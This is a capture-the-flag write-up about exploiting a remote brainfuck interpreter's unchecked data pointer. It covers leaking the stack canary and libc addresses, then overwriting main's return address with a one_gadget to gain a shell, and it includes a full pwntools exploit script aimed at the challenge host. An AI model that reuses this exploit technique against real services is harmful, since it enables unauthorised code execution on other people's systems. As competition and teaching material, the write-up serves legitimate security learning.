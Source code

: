 ​Hi, the goal of this challenge it to exploit a brainfuck interpreter remotely. the binary of the interpreter is provided.

the program allocate some buffers on stack:

    3 dwords, for the ptr var, jump addr, and pc
    followed by 30000 bytes of memory
    followed by 1004 bytes of program memory
    followed by the canary (8 bytes)
    followed by libcsu_init address in program (8 bytes)
    followed by _libc_start_main return address in libc (8 bytes)

the brainfuck interpreter moves the ptr register from beginning of the 30000bytes buffer, with no limit checking.. 
* "," --> we can do ptr = getchar(), to read a char from stdin to actual pointer,
* "." --> or putchar(ptr) , dump char stored at actual pointer 
* ">" & "<" -->  increment and decrement pointer 
* "+" & "-" --> increment and decrement pointer content 
* "[" & "]" --> and do some loops..

so the exploitation goes like this, we send enough chars, to reach canary address with ptr, then we dump canary, _libcsu_init addr, and _libc_start_main return address.. this is our leaks..

we identify first libc version with the libc leak address, we identify libc6_2.28-10_amd64.so as the libc used.

then we calculate libc_base with our libc leak, then we calculate onegadget address with it. and we just rewrite the _libc_start_main return address with the onegadget address..

then, when the program returns from main...we got Shell..

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
#
from pwn import *
context(arch = 'amd64', os = 'linux')
context.log_level = 'info'

#binary name
challenge_exe = './bflol'

#setting
con_host = 'chal.cybersecurityrumble.de'
con_port = 19783

p = connect(con_host, con_port)

command = ',[>,]>.[>.]>>.[>.]>><<<<<<<<,>,>,>,>,>,>'

p.sendline(command)

payload = ']'*30000
payload += command
payload += (1004-len(command))*']' + '\x00'


p.send(payload)

buff = p.recv(1)
buff += p.recv()

# we dump the canary (even if we don't need it)
canary = u64('\x00'+buff[0:7])
info("canary = "+hex(canary))
# we dump a program address (even if we don't need it)
leak1 = u64(buff[8:14]+'\x00\x00')
info("leak prog = "+hex(leak1))
# we dump a libc_start_main return address (this one we need it)
libc_leak = u64(buff[14:20]+'\x00\x00')
info("leak libc = "+hex(libc_leak))

# libc_start_main return address offset for libc_base
retoffset = 0x02409b
# we calculate libc_base with our libc leak
libc_base = libc_leak - retoffset
info("base libc = "+hex(libc_base))

# the one gadget we will use
onegadget = libc_base + 0x4484f

info("onegadget = "+hex(onegadget))
info("sending one gadget (good luck)")

payload2 = struct.pack('<Q', onegadget)
p.send(payload2[0:6])

p.interactive()
```

around 2020 nobodyisnobody still pwning...



